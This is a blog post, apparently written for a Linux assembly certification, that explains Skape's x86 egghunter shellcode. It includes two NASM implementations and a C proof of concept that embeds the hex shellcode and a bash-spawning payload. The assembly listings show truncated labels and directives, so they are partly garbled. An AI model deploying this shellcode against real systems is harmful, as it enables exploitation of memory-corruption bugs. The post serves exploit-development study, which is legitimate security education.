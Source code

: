 ```yaml
---
layout: post
title: " Skape's Egg Hunter (null-free/Linux x86) "
date: 2017-05-02 12:00:00
share: true
comments: true
tags: shellcoding exploitation slae
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---
 
_Note: Pretty much the entire post is extracted from Skape's paper, it's extremely well-written and is a must read._  


## What is an egghunter?

  
Assume you found a buffer overflow vulnerability with a very small space that you control that is less than that of a bind/reverse shell, how can you utilize this space? The following concept is discussed in depth by Skape in [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) where the actual payload is marked by an "egg" (usually 4-8 bytes that are very unlikely to be found in memory) and the small controllable space contains an "egghunter" which will search for that egg in the virtual address space.  
  
Skape discussed 3 different implementations for Linux, I implemented both `access(2)` and `access(2) revised`.  
  

## What are the requirements of an egg hunter?

* **Small size**: Since the main reason an egg hunter is needed is that we're tight on space, the smaller the shellcode is, the better. This is achieved by writing a very optimized shellcode.  

* **Robustness**: It should be able to scan the entire virtual space fast without failing on unallocated memory. This is achieved through multiple methods on Linux, discussed below.  
  
* If you directly try to read an unallocated memory in Linux, program will throw a SIGSEGV and crash. Instead, Skape recommended an out of the box suggestion, which is abusing the `access()` syscall.  
  
```cpp
int access(const char *pathname, int mode);  
```

Passing an address instead of pathname will check if the memory is allocated, if not it won't throw a `SIGSEGV`, allowing us to scan the memory safely.  
  
One more thing is that we need to make sure that the egg hunter won't ultimately point at itself, that's why the code will check the presence of the egg twice in a row before concluding that this is our payload.  

---

## How does the egg hunter work?

#### Method 1: access(2)  
  
```nasm
; Skape's egghunter: access(2)

al _start:  

ion .text  

rt:  
mov ebx, 0x50905090     ; Store EGG in ebx  
xor ecx, ecx            ; Zero out ECX  
mul ecx                 ; Zero out EAX and EDX  
age:                    ; JMP to increment page number  
or dx, 0xfff            ; Align page address  
ddr:                    ; JMP to increment address  
inc edx                 ; Go to next address  
pushad                  ; Push general registers onto stack  
lea ebx, [edx+4]        ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
mov al, 0x21            ; syscall for access()  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
popad                   ; Restore registers  
jz IncPage              ; access() returned EFAULT, skip page  
cmp [edx], ebx          ; initialized memory, check if EGG is in [edx]  
jnz IncAddr             ; EGG isn't in [edx], visit next address  
cmp [edx+4], ebx        ; EGG is found in [edx], is it in [edx+4] too?  
jne IncAddr             ; Boohoo! It wasn't. Visit next address  
jmp edx                 ; [edx][edx+4] contain EGGEGG, we found our shellcode! Execute meaningless EGGEGG instructions then our payload  
```    

  
#### Method 2: access(2) revised  
 
```nasm
; Skape's egghunter: access(2) revised  


al _start  

ion .text  

rt:  
xor edx, edx            ; EDX = 0  
age:  
or dx, 0xfff            ; Align page address  
ddr:  
inc edx                 ; Go to next address  
lea ebx, [edx+0x4]      ; [edx+4] so we can compare [edx] and [edx+4] at the same time  
push byte 0x21          ; syscall for access()  
pop eax  
int 0x80                ; call access() to check memory location [EBX]  
cmp al, 0xf2            ; Did it return EFAULT?  
jz IncPage              ; It did, skip page  
mov eax, 0x50905090     ; Store EGG in EAX  
mov edi, edx            ; Move EDX to EDI for scasd operation  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
scasd                   ; Check if [EDI] == EAX then increment EDI  
jnz IncAddr             ; It isn't, increment address  
jmp edi                 ; We found our Egg! JMP to EDI, which points directly to our shellcode  
```

---

## Proof of concept

```cpp
/*  
 egghunter.c  
 By Abatchy  
 gcc egghunter.c -fno-stack-protector -z execstack -o shellcode.out  
*/  
  
#include <stdio.h>  
#include <string.h>  
  
#define EGG "\x90\x50\x90\x50"  
  
// Spawns a bash shell  
unsigned char secret[] = EGG EGG  
"\x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";  
  
// Skape's egghunter: access(2)  
unsigned char egghunter1[] =   
"\xbb"  
EGG  
"\x31\xc9"  
"\xf7\xe1"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x60"  
"\x8d\x5a\x04"  
"\xb0\x21"  
"\xcd\x80"  
"\x3c\xf2"  
"\x61"  
"\x74\xed"  
"\x39\x1a"  
"\x75\xee"  
"\x39\x5a\x04"  
"\x75\xe9"  
"\xff\xe2";  
  
// Skape's egghunter: access(2) revised  
unsigned char egghunter2[] =   
"\x31\xd2"  
"\x66\x81\xca\xff\x0f"  
"\x42"  
"\x8d\x5a\x04"  
"\x6a\x21"  
"\x58"  
"\xcd\x80"  
"\x3c\xf2"  
"\x74\xee"  
"\xb8" EGG  
"\x89\xd7"  
"\xaf"  
"\x75\xe9"  
"\xaf"  
"\x75\xe6"  
"\xff\xe7";  
  
int main()  
{  
    printf("Egg is at %p\n", secret);  
    printf("Egghunter size: %d\n", strlen(egghunter1));  
    int (*ret)() = (int(*)())egghunter1;  
    ret();  
}  
```

  
Successfully running this code will search for the `EGG` in the memory and execute the payload, throwing a bash shell. Using `strace ./program` is a nice way to check if it's searching memory properly, or attaching GDB.  
  
\- Abatchy
